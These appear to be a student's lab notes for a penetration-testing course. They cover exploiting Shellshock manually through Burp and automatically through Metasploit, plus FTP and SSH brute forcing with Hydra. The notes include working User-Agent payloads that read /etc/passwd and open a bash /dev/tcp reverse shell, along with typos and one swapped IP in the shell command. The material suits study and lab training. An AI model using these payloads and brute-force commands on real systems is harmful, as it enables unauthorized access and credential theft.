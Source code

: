 # Exploiting Bash CVE-20214-6271 Vulnerability (Shellshock)

- Shellshock (CVE-2014-6271) is s family of vulnerabilites in the Bash shell (since V1.3) that allow an attacker to execute remote arbitrary commands via Bash, consequently allwing the attacker to obtain remote access to the target system via a reverse shell.
- The Shellshock vulnerability is caused by a vulnerability in Bash, whereby Bash mistakenly executes trailing commands after a series of characters: () {:;};.
- Only affects Linux (not Windows)
- In context of remote exploitation, Apache web servers configured to run CGI scripts or .sh scripts are also vulnerable to this attack.
- CGI (Common Gateway Interface) scripts are used by Apache to execute arbitrary commands on the Linux system, after which the output is displayed to the client.
  
- In order to exploit this vulnerability, we need to locate a input vector or script that allows you to communicate with Bash
- In the context of an Apache web server, we can utilize any legitimate CGI scripts accessible on the web server.
- Whenever a CGI script is executed, the web server will initiate a new process and run the CGI script with bash.
- This vulnerability can be exploited both manually and automatically with the use of an MSF exploit module.

## Demo: Exploiting Bash CVE-2014-6271 Vulnerability (Shellshock)

### Manually

We want to get the target IP:

`ifconfig`

`namp -sV [target IP]`

Port 80, target IP is running a webserver. We can confirm this with the browser. The countdown is done by a CGI script. It executes the gettime.cgi script and we can access it because its in the root [targetip]/cgi.script. We can utilize this as our input vector. We can check if this system is vulnerable to our attack strategy:

`nmap -sV [target IP] --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"`

Target is vulnerable and exploitable. Foxy Proxy allows to switch between Proxy's. We open BurpSuite and we use the default config:

Proxy -> Intercept ON -> We make a get request for the gettime.cgi script.

We are going to inject the special characters into the user agent http header. Send request to Repeater (rightclick) -> Repeater tab. We can replace the user agent information with our special characters. User Agent: `() { :; }; echo; echo; /binbash -c 'cat /etc/passwd'` To send this request: SEND. So it displays the output of this command in RESPONSE.

Getting reverse shell on target? We can utilize bash to connect to a listener to our kali linux system:

Listens to that port on the target system:

`nc -nvlp 1234`

We open Burpsuite, in REQUEST we replace our old command: `() { :; }; echo; echo; /binbash -c 'bash -i>&/dev/tcp/[target IP]/1234 0>&1'` SEND. we should get a reverse shell on our netcat listener. connection on target should be established:

We are logged in as the deamon@victim-1
`whoami`

enumerate info regarding the distro
`cat /etc/*issue`

gives us the kernel info
`uname -a`

### Automatically

`service postgresql start && msfconsole`

`search shellshock`

auxiliary module tells us if the target is vulnerable.

`use exploit/multi/http/apache_mod_cgi_bash_env_exec`

msf5 exploit: `show options`

`set rhosts [target IP]`

We need to specify the targeturi, which is the path to the cgi script:

`set targeturi /gettime.cgi`

`exploit`

successfully obtained meterpreter session on the target.

# FTP
- Protocol that uses port 21 and is used to facil itate file sharing between a server and client/clients
- Also frequently used as a means of transferring files to and from the directory of a web server.
- FTP authentication requires a username and a password combination. As a result, we can perform a brute-force attack on the FTP server in order to identify legitimate credentials
- In some cases, FTP servers may be configured to allow anonymous access, which consequently allows anyone to access to the FTP server without providing any legitimate credentials.

## Demo

ifconfig

nmap -sV [target IP]

anonymous access:

ftp [target IP]

_anonymous_

ls -al /usr/share/nmap/scripts | grep ftp-*

we can run the anon script to identify whether it is indeed vulnerable.

we want to perform the brute force with hydra:

hydra -L /usr/share/metasploit/-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt [target IP] -t 4 ftp

We get 7 valid passwords and we try some of them:

ftp [target IP]

dir

download a file:

get secret.txt

exit

ls

cat secret.txt

nmap -sV [target IP]

searchsploit ProFTPD

# Exploiting SSH
- SHH (Secure Shell) is a remote administration protocol that encryption and is the succesor to Telnet.
- It is typically used to remote access to servers and systems.
- SSH uses TCP port 22 by default, however, like other services, it can be configured to use any other open TCP port.
- SSH authentication can be configured in two ways:
  - Username & password authentication
  - Key based authentication
- We can perform a brute-force on the SSH server in order to identify legitimate credentials and consequently gain access to the target system.

## Demo: Exploiting SSH

`nmap -sV [target IP]`

`hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/common_passwords.txt -t 4 [target IP] -t 4 ssh`

`ssh sysadmin@[targetIP]`

`whoami`

`groups sysadmin`

`cat /etc/*issue`

`uname -r`

`cat /etc/passwd`




